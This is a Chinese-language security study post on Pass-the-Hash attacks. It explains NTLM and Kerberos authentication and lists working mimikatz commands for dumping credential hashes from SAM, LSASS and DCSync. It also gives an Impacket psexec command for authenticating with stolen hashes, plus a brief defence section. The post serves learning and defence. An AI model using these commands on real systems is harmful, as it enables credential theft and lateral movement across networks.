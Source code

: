 ```yaml
---
title: "Pass The Hash攻击学习"
description: "Pass The Hash攻击学习，将窃取到的NTLM Hash作为凭据，直接用于认证和访问网络中的其他主机"
date: 2025-08-02
tags:
  - "横向系统"
  - "Windows"
  - "渗透学习"
  - "应急响应"
authors:
  - "bx"
draft: false              # 设为 true 则为草稿
slug: "passthehash"          # 随机URL字符串
---
```

<meta name="referrer" content="no-referrer">



## Pass The Hash攻击学习

**简化的NTLM认证流程：**

> 英文翻译结果，这个例子比较好理解

1. **客户端 -> 服务器:** “嗨，我想访问你的资源。”
2. **服务器 -> 客户端:** “哦？那你证明一下你是谁。这是一个随机字符串（Challenge），你用你的密码加密它再发给我。”
3. **客户端:** 客户端会使用用户的**NTLM Hash**（而不是明文密码）来加密这个Challenge，生成一个“响应”（Response）。
4. **客户端 -> 服务器:** “这是加密后的Response。”
5. **服务器:** 服务器将Response交给域控制器（DC）。DC拥有所有用户的NTLM Hash，它会用存储的Hash执行相同的加密计算。如果计算结果与客户端发来的Response一致，就证明客户端拥有正确的凭据，认证通过





### 常见提取

从流程中我们可以发现整个认证过程依赖的是**NTLM Hash**，而不是明文密码  

**NTLM Hash存放一般以下两个位置**

+ **SAM文件:** 对于本地账户，Hash存储在 `C:\Windows\System32\config\SAM` 文件中。这个文件在系统运行时是锁定的。

```bash
# mimikatz 
lsadump::sam
```

+ **LSASS进程内存:** 当用户登录系统后（无论是本地登录、远程桌面还是运行服务），为了方便后续的认证，系统会将该用户的凭据（包括NTLM Hash）缓存在一个名为`lsass.exe`（Local Security Authority Subsystem Service）的进程内存中。**这是PtH攻击最主要的Hash来源。**

```bash
#mimikatz 
privilege::debug sekurlsa::logonpasswords
```

+  **DCSync**

 模拟域控制器的复制请求，从 DC 拉取用户 Hash。  

```bash
mimikatz 
lsadump::dcsync /user:DOMAIN\Administrator
```



### 一般攻流程

所以一般来讲，一个典型的域环境 PTH 攻击流程：

1. **拿到域内主机**（可以低权限）。
2. **提取 LSASS 或 SAM 中的 Hash**。
3. **使用 PTH 工具发起会话**：
   - Windows 自带：

```plain
runas /netonly /user:DOMAIN\Administrator cmd
```

    - Impacket：

```plain
python3 psexec.py DOMAIN/Administrator@TARGET -hashes <LMhash>:<NThash>
```

4. 继续移动。





### 防御措施

+ 禁用 NTLM 或限制 NTLM 使用（用 Kerberos 代替）。
+ 启用 **LSASS 保护（RunAsPPL）**：

```plain
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v RunAsPPL /t REG_DWORD /d 1 /f
```

...





## NTLM 和 Kerberos 

> GPT-5 总结一下

### NTLM（ NT LAN Manager  ）

#### 核心特点

+ **基于质询-响应（Challenge-Response）** 协议。
+ 不会直接传输明文密码，而是用 **NTLM Hash** 来参与加密运算。
+ 主要用在：
  - 无法使用 Kerberos 的场景（比如非域环境、跨域、与旧系统交互）
  - 一些遗留应用和协议（SMBv1/2、RPC、RDP 等）

#### 简化认证流程

1. 客户端发起请求。
2. 服务器发送一个随机 **Challenge**（8 字节）。
3. 客户端用 **NTLM Hash + Challenge** 计算出 Response。
4. 服务器把 Response 交给域控制器（或本地 SAM 数据库）验证。

> **弱点**
>
> + **Hash 即凭据** → 拿到 Hash 就能认证（PTH 攻击核心）。
> + 无法抵抗重放攻击（除非 Challenge 是一次性且短时有效）。
> + 没有强加密的会话票据，安全性低于 Kerberos。



###  Kerberos  

>  Kerberos是一种广泛使用的**网络认证协议**，它主要用于在不安全的网络环境中，为客户端和服务器提供安全的身份验证。它的核心思想是使用一个可信任的第三方来验证通信双方的身份。  

#### 核心特点

+ 基于票据（Ticket-based） 的认证协议。
+ 使用对称加密（AES、RC4 等）和时间戳来防止重放攻击。
+ 默认在 Windows 域环境使用，NTLM 是备选方案。
+ 设计目标是 单点登录（SSO），登录一次即可访问域内多台机器。

#### 参与角色

+ 客户端（User/Machine）
+ 服务（Server）
+ KDC（Key Distribution Center） → 通常在域控制器上，包含：
  - AS（Authentication Service）：初始认证
  - TGS（Ticket Granting Service）：发放服务票据

#### 简化认证流程

1. 初始认证（AS 交换）
   - 客户端向 KDC 请求 TGT（Ticket Granting Ticket）。
   - KDC 用用户密码的哈希加密 TGT → 客户端解密成功即证明身份。
2. 请求服务票据（TGS 交换）
   - 客户端用 TGT 向 KDC 请求某个服务的 Ticket。
   - KDC 生成服务票据，用服务的密钥加密。
3. 访问服务（AP 交换）
   - 客户端把服务票据交给目标服务 → 服务解密验证 → 建立会话。

> **优点**
>
> + 不依赖 Hash 直接登录（Hash 不会像 NTLM 那样直接参与 Challenge）。
> + 有效防止重放攻击（票据有时间戳和生命周期）。
> + 支持双向认证（客户端和服务端互相验证）。
>
> **弱点**
>
> + 如果拿到 **TGT 或 TGS 票据**，依然可以伪造会话（**Pass-the-Ticket 攻击**）。
> + KDC/域控制器被攻陷 → 全域沦陷（黄金票据/白银票据攻击）。







## Impacke 套件

>  Impacket 是一个内网渗透的“命令行航母”，它将复杂的Windows网络协议攻击封装成了简单易用的脚本  

简单的说， Impacket是一个用Python编写的、用于处理网络协议的类库集合  

[GitHub - fortra/impacket: Impacket is a collection of Python classes for working with network protocols.](https://github.com/fortra/impacket)




## mimikatz 猕猴桃

### 常用操作

**提升权限**

```plain
privilege::debug
```

**导出系统凭据:**

```plain
sekurlsa::logonpasswords
```

**导出SAM数据库:**

```plain
lsadump::sam
```

**导出缓存的域凭据:**

```plain
lsadump::cache
```

**Kerberos票据操作:**

```plain
sekurlsa::tickets
kerberos::list
```

**导出NTDS.dit (域控制器):**

```plain
lsadump::dcsync /user:Administrator
```



## 参考文章

[Pass The hash攻击 - kalixcn - 博客园](https://www.cnblogs.com/kalixcn/p/18138330)

[What is a Pass-the-Hash Attack? | CrowdStrike](https://www.crowdstrike.com/en-us/cybersecurity-101/cyberattacks/pass-the-hash-attack/)

